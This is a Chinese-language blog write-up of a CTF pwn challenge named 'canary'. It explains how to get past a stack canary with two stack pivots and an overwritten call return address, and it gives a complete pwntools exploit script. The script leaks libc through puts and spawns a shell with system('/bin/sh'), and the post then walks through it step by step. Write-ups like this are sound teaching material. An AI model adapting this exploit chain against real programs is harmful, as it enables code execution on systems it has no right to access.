 ```yaml
---
title: 有意思的canary
description: 学不懂!
pubDatetime: 2023-06-16
published: true
ogImage: ../../assets/4.png
language: cn
tags:
  - 网络安全
---
```

# 勘误 
> 感谢大专老哥，让我一直以来错误的思想完全纠错了过来。
> 不得不说，现在pwn的题目脑洞真的大。
> 连续三次遇到非常规的栈迁移和非常规的格式化字符串。
> 这里给出某战队师傅的锐评
> ![4DA953EC8C163A2B495F1FF649392822.jpg](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885711487-9d13f091-cc9b-4bc7-a59d-af784ae95253.jpeg#averageHue=%23fdfefe&clientId=uc38eb869-7fe5-4&from=paste&height=219&id=u4a71c358&originHeight=362&originWidth=879&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=61284&status=done&style=none&taskId=u05807259-1efb-4a57-9047-3474d62422f&title=&width=532.7272419364674)

水完这篇就不写了，上线代课的时候，忽然想到自己这里理解错了，虽然也写出来了，之前公众号一篇文章里面的一道题。<br />[声东击西|三道有意思的pwn题](https://mp.weixin.qq.com/s?__biz=Mzg3OTgzNjk4OA==&mid=2247486156&idx=1&sn=7b110b88a9e4645a7884a9461ec0925a&chksm=cf7f209ff808a98958b0c0ccb5b8c85d52de394317037209237c26023ca6247cc3e94101fabf#rd)<br />速度速度，搞完四级。<br />哦对，以后打比赛，写题目，最快的方法就是调试，调到栈上的返回地址啊什么的，为我们想要的，这样就能快速避免出错了！！！也不用去思考究竟便宜多少。一步步rop嘛。分解动作去调试完成。
## 题目

- 本题的重点在于如何绕过canary

![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652249303-57682fe4-653a-43c0-8097-c1369adb969d.png#averageHue=%23040403&from=url&id=vJCJr&originHeight=861&originWidth=1553&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686652176225-fa5d57de-07da-44ee-b21c-b673c9c9d83a.png#averageHue=%23030202&from=url&id=wQMjg&originHeight=434&originWidth=1237&originalType=binary&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&title=)
## EXP
废话不多说，先看exp<br />![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885339882-d9693cf1-927f-4e2a-9b6d-bf2cf999065f.jpeg)
```python

from pwn import *
context.log_level = 'debug'

#io = gdb.debug('./canary')
p = process('./canary')
elf = ELF('./canary')
libc = elf.libc

r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 0

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)


main = 0x401296
main2 = 0x40133f
gift = 0x401258
pop_rdi = 0x4013e3
ret = 0x40101a
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))

payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28  #+ p64(0x404900)
pause()
s(payload)

libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)


shell()
```
## 重点：理解ret和call和参数寻址和

- call指令，将当前的地址push进去，也就是说，esp会下移动一个位
- ret指令，将pop当前esp指向的内容到eip，就就是说，esp会上移动一个位
- 参数寻址：不管esp如何，通过ebp定位，也就是说esp负责流程控制，ebp负责数据的定位

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686885420233-5525bfd2-ffe3-4386-9807-f5efac90513a.png#averageHue=%236e6c6a&clientId=uc38eb869-7fe5-4&from=paste&height=188&id=u5a458010&originHeight=310&originWidth=843&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=30215&status=done&style=none&taskId=uadc52cbb-3a29-4e7d-b455-11135c1c6a1&title=&width=510.90906137934246)
## 本题的详细分析

- 通过主main函数的read来覆盖ebp，两次实现栈迁移（注意第一次迁移之后，read写入的位置）
- 通过gift里面call read来写栈的同时，也通过覆盖push进去的eip来绕过canary
### 第一次迁移rbp
```python
sla(b"functions?\n", b'0')
s(p64(0x404900) + p64(main))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883993243-eebc35dc-10f0-4f8a-8a7c-e92a28b9a4b6.png#averageHue=%23141b1b&clientId=uc38eb869-7fe5-4&from=paste&height=707&id=Yib8l&originHeight=1166&originWidth=1380&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1417060&status=done&style=none&taskId=u34505aa8-ba76-4ac1-863c-914cab17e41&title=&width=836.3635880231228)<br />![Snipaste_2023-06-16_10-22-42.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686883958742-ab317bbd-87a3-4e1d-b822-f028f17f2054.png#averageHue=%23181f1f&clientId=uc38eb869-7fe5-4&from=paste&height=530&id=u214bde6c&originHeight=875&originWidth=1271&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=646418&status=done&style=none&taskId=u3eabdd65-4b9c-495c-8238-806db1e9211&title=&width=770.3029857807168)
### 第二次迁移rsp，于写目标栈
```python
sla(b"functions?\n", b'0')
s(p64(0x404948) + p64(gift))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884033596-d7aca4b0-6725-4849-93dc-128893f77a26.png#averageHue=%23151e21&clientId=uc38eb869-7fe5-4&from=paste&height=398&id=ub4090f35&originHeight=656&originWidth=1166&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=892316&status=done&style=none&taskId=u2ff15ac4-1e1c-45bf-9dc4-e6a4d1f5a43&title=&width=706.6666258224357)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884106541-dad337dc-4e7b-4835-89dd-a002ad17ef34.png#averageHue=%231a2120&clientId=uc38eb869-7fe5-4&from=paste&height=239&id=u50d58987&originHeight=394&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=668459&status=done&style=none&taskId=uce52fa95-2abe-48f2-99f3-80c18adfd14&title=&width=775.757530919998)
### 目标栈写rop链同时，覆盖call返回绕过canary
```python
payload = p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(gift) + b'a' * 0x28 + p64(0x404900)
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884151274-bcc2e2ac-f89a-40e1-9dc4-b34c46107d83.png#averageHue=%23141c1a&clientId=uc38eb869-7fe5-4&from=paste&height=467&id=u4a1d2aad&originHeight=771&originWidth=1203&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1009380&status=done&style=none&taskId=u18872cfc-589d-4972-9894-828e68709a2&title=&width=729.0908669505918)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884158945-b11da903-6fc8-4cb1-891f-ea819eaac217.png#averageHue=%23172023&clientId=uc38eb869-7fe5-4&from=paste&height=311&id=uef8d7f2e&originHeight=513&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=648016&status=done&style=none&taskId=u7cf33ae5-1ef2-4cd2-870e-56d43af3f4e&title=&width=825.4544977445604)
### 成功指向并泄露libc
```python
libc.address = u64(ru(b'\x7f')[-6:].ljust(8, b'\x00')) - libc.sym['puts']
pr('libc_base', libc.address)
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh\x00'))
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884185201-3fd3742a-b7df-449f-bb25-b246274f9c54.png#averageHue=%2313191b&clientId=uc38eb869-7fe5-4&from=paste&height=776&id=u4acb32e9&originHeight=1280&originWidth=2487&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=3075709&status=done&style=none&taskId=u8887355c-ba1f-4950-a0e2-ef304a47742&title=&width=1507.272640154715)
### 再次覆盖gift里面的call，从而再次绕过canary直接getshell
```python
payload = b'a' * 0x18 + p64(pop_rdi) + p64(binsh) + p64(system)
pause()
s(payload)
shell()
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884236766-1575fc6d-3f44-4ed1-9844-e2b7e7e1a7a0.png#averageHue=%231b2527&clientId=uc38eb869-7fe5-4&from=paste&height=674&id=uaf573afb&originHeight=1112&originWidth=1297&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1548612&status=done&style=none&taskId=u0d8037a8-6ce0-427a-a22a-d529e832820&title=&width=786.0605606275292)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1686884249806-19481e75-6685-4ffd-9be3-563ca5a26a1c.png#averageHue=%230a0e10&clientId=uc38eb869-7fe5-4&from=paste&height=425&id=uf8b2c928&originHeight=701&originWidth=1120&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=640099&status=done&style=none&taskId=u84b27d76-8bf0-4202-81f8-e909b6d1d81&title=&width=678.7878395549983)
## 图解流程
![](https://cdn.nlark.com/yuque/0/2023/jpeg/29466846/1686885386260-da81dac6-df71-46b6-a832-4bb12c9442e9.jpeg)
